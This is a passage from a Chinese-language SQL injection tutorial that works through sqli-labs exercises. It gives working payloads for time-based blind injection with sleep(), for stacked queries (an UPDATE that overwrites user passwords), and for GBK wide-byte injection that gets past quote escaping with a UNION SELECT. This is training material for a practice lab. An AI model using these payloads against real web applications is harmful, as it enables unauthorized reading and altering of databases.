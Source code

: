 可以编写脚本完成





## 延时注入

当页面既没有回显，又没有报错，而且还没有布尔变化的时候，就需要使用延时注入来判断状态；

```sql
# 页面有延时,则代表条件成立
/sqli-labs/Less-9/?id=2' and if(length(database())>1,sleep(5),1) --+

/sqli-labs/Less-9/?id=2' and if(substr(database(),3,1)='c',sleep(5),1) --+
```



## 堆叠查询

一次HTTP 请求，可以同时执行多条SQL 语句，包括增删改查操作

```sql
?id=2';update users set password='123456'--+
```



## 宽字节注入

宽字节注入准确来说不是注入手法，而是另外一种比较特殊的情况。宽字节注入的目的是绕过单双引号转义，以sqli-labs-32 关为例

问题：

```txt
?id=1
?id=1'
1\' 服务器会使用 \ 把单引号转义，单引号由原来的定义字符串的特殊字符被转义为普通字符。
315c27 非常强烈的暗示
```

解决办法：

```txt
cb5c 薥 
?id=1%cb'
1%df\'
31cb5c27
1薥' # “吃”掉了转义字符\
/Less-32/?id=1%cb' and 1=2 union select 1,database(),3 --+
```

5C 在GBK 编 码的低位范围之内[40,FE]。在5C 之前添加一个字符[81,FE] 之间，该字符就会和5c 组成一个汉字。

---



## HTTP 头部注入
